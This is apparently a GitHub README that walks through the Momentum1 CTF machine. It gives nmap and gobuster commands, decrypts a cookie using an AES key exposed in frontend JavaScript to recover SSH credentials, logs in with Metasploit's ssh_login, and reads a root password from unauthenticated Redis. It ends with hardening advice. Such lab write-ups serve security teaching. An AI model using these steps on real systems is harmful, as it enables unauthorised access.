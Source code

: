 #  Momentum1 CTF – Summary Walkthrough  

A full text-based breakdown of the Momentum1 vulnerable machine.  
This box highlights issues like weak frontend encryption, exposed cookies, and misconfigured Redis — all chained together to achieve root compromise.  

---

##  DISCOVERY  
- Ran nmap scan:  
  nmap -sV -A <ip>
  
Found open ports:
22 (SSH)
80 (HTTP – Web server)

##  ENUMERATION  
Ran gobuster on port 80:

gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

Discovered:

/css

/js

/manual

/img

Inside /js/main.js:

Comment revealed AES encryption method

Exposed decryption passphrase

Hidden URL that returned a cookie value

✅ Decrypted the cookie using the key → Recovered SSH credentials for user auxerre

##  FOOTHOLD  
Used Metasploit Framework with ssh_login module:

msfconsole

search ssh_login

use auxiliary/scanner/ssh/ssh_login

set RHOSTS <ip>

set USERNAME auxerre

set PASSWORD <decrypted-password>

run

✅ Access gained as limited user auxerre

##  Privilege Escalation (auxerre → root)
Step 1 — Enumeration with LinPEAS:

Uploaded linpeas.sh to /tmp

Gave execute permission: chmod +x linpeas.sh

./linpeas.sh

Enumerated Linpeas result: Found Redis service running on the target


Step 2 — Exploiting Redis

Enumerated Redis and retrieved stored root password:

redis-cli

KEYS *

GET rootpass


Switched to root using discovered credentials:

su root

✅ Gained full root access

##  Recommendations
System & Service Hardening
Disable unauthenticated Redis access

Bind Redis to localhost or enforce strong authentication

Source Code & Application Layer
Never leave encryption methods, keys, or credentials in frontend code

Sanitize and restrict access to cookies and sensitive tokens

👉 View the Medium post here: [https://medium.com/@basitolasubomibalogun/momentum1-ctf-full-technical-walkthrough-c770f8848665]
